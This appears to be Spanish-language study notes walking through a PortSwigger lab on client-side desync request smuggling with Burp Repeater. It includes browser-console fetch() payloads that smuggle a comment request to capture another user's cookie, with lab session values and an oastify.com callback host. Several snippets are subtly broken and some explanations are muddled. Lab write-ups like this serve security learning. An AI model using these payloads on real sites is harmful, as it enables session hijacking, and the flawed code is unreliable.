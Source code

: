 Para este ataque necesitaríamos un servidor que soporte solo HTTP/1.1 e ignore el content-length.
Para saber si nuestro endpoint no soporte el HTTP/2, vamos a la solicitud dentro del repeater, en brupsuite, y al upgradearlo a 2 vemos un cartel debajo a la izquierda que dice:
"Server ALPN does not advertise HTTP/2 support. You can force HTTP/2 from the Repeater menu."
si le hacemos caso a esta advertecnia y en la ruedita de settings le damos clikc a "Allow HTTP/2 ALPN override" y obtenemos un error nuevamente que dice "Stream failed  to close correctly" y esto lo confirma. Asegurate de tener activado "Enable HTTP/1 connection reuse". dentro del repeater y en la parte de pestañas, le damos al ícono de más (+) y elijimos la última opción de "create a tab group" que nos da. Esto nos creara una carpeta con el grupo de pestañas que seleccionemos, y serán como un grupo en el que podemos sincronizar solicitudes HTTP en la misma conexión tcp, en el dropdown del botón send (el cual envía las peticiones) y elegimos "Send group in sequence (in a single connection)"
Escribimos lo siguiente en la consola
```
fetch("https://portswiggerlab.net/", {
	method: "POST",
	BODY: "get /Hopefully404 HTTP/1,1\r\nX-Ignore: X",
	credentials: "include", //ensures we use the 'with-cookies connection pool'
	mode: "cors", 
	})
```
El mode cors es porque la solicitud retornará un 302 redirect y nos tenemos que asegurar de que este no sea seguido para que no nos rompa todo. También utilizamos catch

```
fetch("https://portswiggerlab.net/", {
	method: "POST",
	BODY: "get /Hopefully404 HTTP/1,1\r\nX-Ignore: X",
	credentials: "include", //ensures we use the 'with-cookies connection pool'
	mode: "cors", 
	}).catch(() => {
		fetch("https://portswiggerlab.net/", 
			{
			moed: "no-cores",
			credentials: "include",
			}
		)
	)
```
Y todo esto se copia en la consola, para que se ejecute justamente del lado del servidor, porque no hay ningún backend que opere detrás.

Tomamos la petición del post comentario, dejamos el comentario al final para que este se concatene con la request y podamos ver la cookie:
```
smuggledRequest= [
"POST /en/post/comment HTTP/1.1",
"Host: 0a7900d1044d8d8783581eca00fc00d5.h1-web-security-academy.net",
"Cookie: session=4xgZedVgP7B7XeVCDxc6aTAaxBorGGR3",
"Connection: keep-alive",
"Content-Length: 157",
"",
"csrf=BtLJFAn0VnDd91R7M1lt6LEsJa8YHkcF&postId=4&name=asd&email=crummy_mockup@gmail.com&website=http://yeg6wpk2ywy45wjx5i0go9oii9o0ct0i.oastify.com&comment=asd",
].join("\r\n");

fetch("https://0a7900d1044d8d8783581eca00fc00d5.h1-web-security-academy.net/", {
	method: "POST",
	BODY: "get /Hopefully404 HTTP/1,1\r\nX-Ignore: X",
	credentials: "include",
	mode: "cors", 
	}).catch(() => {
		fetch("https://0a7900d1044d8d8783581eca00fc00d5.h1-web-security-academy.net/", 
			{
			moed: "no-cores",
			credentials: "include",
			}
		)
	})
```
Lo cual es respondido con un:
```
[[Prototype]]: Promise[[PromiseState]]: "pending"[[PromiseResult]]: undefined
```
Pero en el mejor de los casos va a decir "response", esto significa que capturo una solicitud, por lo cual requerirá varios intentos
![[Pasted image 20240818005217.png]]
Y cuando eso suceda vamos a Network y esta presente la respuesta:
![[Pasted image 20240818005321.png]]
